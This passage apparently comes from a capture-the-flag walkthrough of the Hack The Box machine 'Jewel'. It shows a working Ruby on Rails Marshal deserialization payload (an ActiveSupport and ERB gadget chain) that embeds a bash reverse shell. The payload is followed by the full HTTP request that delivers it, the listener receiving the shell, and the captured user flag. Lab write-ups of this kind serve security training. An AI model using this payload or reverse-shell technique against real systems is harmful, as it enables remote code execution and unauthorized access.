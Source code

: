 Lets' build the payload:

```plaintext
$ bundle exec ruby exploit.rb
username=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%07%3A%09%40srcI%22B%25x%28%2Fbin%2Fbash+-c+%22bash+-i+%26%3E%2Fdev%2Ftcp%2F10.10.14.125%2F9999+0%3E%261%22%29%0A%06%3A%06ET%3A%0C%40linenoi%00%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
```

Intercept traffic with Burp and replace the username with the payload.

```http
POST /users/19 HTTP/1.1
Host: 10.10.10.211:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.211:8080/users/19/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 584
Origin: http://10.10.10.211:8080
Connection: close
Cookie: _session_id=39429a031ee66edae6af06579185eb80
Upgrade-Insecure-Requests: 1

utf8=%E2%9C%93&_method=patch&authenticity_token=tlufjzm%2FbY9fBxS%2Bu1QqkY%2BoaSXn3cEL40I1tGF6g4lYvmhcsv8i5NKjpDuOnn6vOABZIzmfLrWS%2Fy7vjgEAsQ%3D%3D&user%5Busername%5D=username=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%07%3A%09%40srcI%22B%25x%28%2Fbin%2Fbash+-c+%22bash+-i+%26%3E%2Fdev%2Ftcp%2F10.10.14.125%2F9999+0%3E%261%22%29%0A%06%3A%06ET%3A%0C%40linenoi%00%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T&commit=Update+User
```

We retrieve the shell on our listener:

```plaintext
$ rlwrap pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.211:51176 (family 2/IPv4, TCP)
bash: cannot set terminal process group (811): Inappropriate ioctl for device
bash: no job control in this shell
bill@jewel:~/blog$ id
uid=1000(bill) gid=1000(bill) groups=1000(bill)

bill@jewel:~$ cat user.txt
02d71a6b8858cc2812ee368bc1ab355b
```

## Privilege Escalation of Machine : from bill to root

Let's get an interactive shell:

